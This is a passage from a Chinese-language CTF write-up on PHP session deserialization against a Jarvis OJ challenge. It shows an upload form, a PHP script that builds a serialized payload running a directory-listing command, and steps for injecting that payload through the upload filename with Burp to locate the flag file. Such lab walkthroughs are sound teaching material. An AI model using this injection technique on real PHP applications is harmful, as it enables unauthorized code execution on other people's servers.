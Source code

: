 构造文件上传的表单

```html
<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="777" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

接下来构造序列化payload

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
class OowoO
{
    public $mdzz='print_r(scandir(dirname(__FILE__)));';
}
$obj = new OowoO();
echo serialize($obj);
?>
```

由于采用Burp发包，为防止双引号被转义，在双引号前加上`\`，除此之外还要加上`|`

在这个页面随便上传一个文件，然后抓包修改`filename`的值

![](php反序列化/12.png)

可以看到`Here_1s_7he_fl4g_buT_You_Cannot_see.php`这个文件，flag肯定在里面，但还有一个问题就是不知道这个路径，路径的问题就需要回到phpinfo页面去查看

![](php反序列化/13.png)
